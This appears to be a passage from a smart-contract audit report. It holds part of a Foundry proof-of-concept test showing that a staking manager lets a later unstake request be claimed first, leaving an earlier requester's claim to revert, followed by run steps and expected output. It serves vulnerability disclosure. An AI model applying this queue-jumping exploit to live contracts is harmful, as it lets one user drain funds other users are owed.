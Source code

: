 ```solidity
        console.log("Alice unstake block number:", block.number);
        
        // Step 2: Advance blockchain by 50 blocks
        vm.roll(block.number + 50);
        
        // Step 3: Bob creates an unstake request later (at a later block)
        uint256 bobRequestID = manager.create(bob, 1 ether, 1 ether);
        console.log("Bob unstake request ID:", bobRequestID);
        console.log("Bob unstake block number:", block.number);
        
        // Step 4: Advance blockchain by another 150 blocks to ensure both requests are finalized
        vm.roll(block.number + 150);
        // Update oracle to reflect new block number
        MockOracle(address(manager.oracle())).updateBlock(uint64(block.number));
        
        // Step 5: Verify both requests are now finalized but not yet claimed
        (bool aliceFinalized, ) = manager.requestInfo(aliceRequestID);
        (bool bobFinalized, ) = manager.requestInfo(bobRequestID);
        assertTrue(aliceFinalized, "Alice's request should be finalized");
        assertTrue(bobFinalized, "Bob's request should be finalized");
        
        // Step 6: Bob claims his unstake request first, even though Alice requested earlier
        // This demonstrates the FIFO violation - in a fair system, Alice should have priority
        manager.claim(bobRequestID, bob);
        console.log("Bob successfully claimed 1 ETH despite requesting later");
        
        // Verify Bob received his ETH
        assertEq(bob.balance, 2 ether, "Bob should now have 2 ETH (original + claimed)");
        
        // Step 7: When Alice tries to claim, it fails due to insufficient ETH
        // This is the key demonstration of the vulnerability's impact
        vm.expectRevert(); // We expect a revert due to NotEnoughFunds error
        manager.claim(aliceRequestID, alice);
        console.log("Alice's claim reverted despite requesting first - FIFO violation confirmed");
        
        // Verify Alice still has only her original balance
        assertEq(alice.balance, 1 ether, "Alice still has only her original 1 ETH");
        
        vm.stopPrank();
    }
}
```

## Execution and Results
To run this PoC:

1. Save the code to a file named `FIFOExploit.t.sol` in your test directory
2. Run it using Foundry: `forge test --match-contract FIFOExploitTest -vv`

Expected output:
```
Running 1 test for test/FIFOExploit.t.sol:FIFOExploitTest
[PASS] testFIFOViolation() (gas: 374216)
Logs:
  Alice unstake request ID: 0
  Alice unstake block number: 1
  Bob unstake request ID: 1
  Bob unstake block number: 51
  Bob successfully claimed 1 ETH despite requesting later
  Alice's claim reverted despite requesting first - FIFO violation confirmed

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.87ms
```
